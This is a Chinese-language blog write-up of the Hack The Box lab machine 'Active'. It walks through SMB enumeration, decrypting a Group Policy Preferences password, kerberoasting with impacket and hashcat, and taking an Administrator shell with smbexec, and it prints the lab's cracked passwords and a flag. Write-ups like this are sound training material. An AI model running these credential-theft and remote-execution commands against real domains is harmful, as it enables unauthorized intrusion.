 +++
title = '0X012 Active'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE2b79f81f1e994947facb32e1d33427b9image.png)

![](/htb_img/WEBRESOURCE57929fea3eb2c20e9a81cb222fdc2be2image.png)

# 获取立足点

开始思考，从哪儿开始看起呢？还是smba吧：

![](/htb_img/WEBRESOURCEe2ba0e29d1b9dba9ac848bc79d363f4dimage.png)

用smbclient简单看了一下，内容好像有点多，但是挂载到本地失败了，只能慢慢看了：

里面其实有东西的目录，应该就是这个目录了：

![](/htb_img/WEBRESOURCE929b2ab801ddc22197d678d5b7b5f4c3image.png)

问了一下GPT，大概知道是用来记录组策略的，但是不知道有什么用：

![](/htb_img/WEBRESOURCE87ab11f980a529d243a7b64203c532cfimage.png)

发现疑似账号密码：

![](/htb_img/WEBRESOURCEd7d244a94d67021c2c41a4546cb9562eimage.png)

这里其实是我的思考不够，其实我是知道这是普通账户，但是目标主机是域控的，但是我对这方面的知识不自信导致，我一直在尝试，通过这个账号密码来获取shell，并且这里的密码是加密的，需要解密：

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

密码为：GPPstillStandingStrong2k18

![](/htb_img/WEBRESOURCE9bedd112f49203bcdfaa39d7ab9e3eb4image.png)

使用该凭证再次登录smb:

![](/htb_img/WEBRESOURCE440f4d2843d061cfa22720a98c061501image.png)

![](/htb_img/WEBRESOURCE08147a54fd1836d6a1164e3cc671b872image.png)

登录后发现flag:

![](/htb_img/WEBRESOURCE537bd27ee83c3e4a88037526309a618aimage.png)

# 提权

我尝试使用该凭证进行登录获取shell，但是发现都失败了，rpc拒绝或者相关smb目录没有写入权限；

![](/htb_img/WEBRESOURCE21b1337ec915a036acf313ff94cfe1e7image.png)

尝试获取其他立足点，其实我感觉这一步更像是域内提权枚举：

# kerberoasting

使用GetUserSPNs.py查询所有注册于用户下的spn:

python GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

![](/htb_img/WEBRESOURCEd4ea9064ac216fbdda4e886205dc6e25image.png)

获取ST，保存为hashcat能爆破的格式：

python /home/kali/Desktop/HTB/impacket/examples/GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile hash.txt

![](/htb_img/WEBRESOURCE88b2ee81d90310dae17659e624785e0aimage.png)

爆破：

hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force

Ticketmaster1968

![](/htb_img/WEBRESOURCE5b8fa2eeaa852240dda639d8e2f24790image.png)

smbexec:

python /usr/share/doc/python3-impacket/examples/smbexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100

![](/htb_img/WEBRESOURCEa5a3cf96a5145e1b772d8e1833e034b1image.png)

2ad2d3d25064e6511303bc5a1bb40ac4

![](/htb_img/WEBRESOURCEec1777129985a3276298ae0bd26f2258image.png)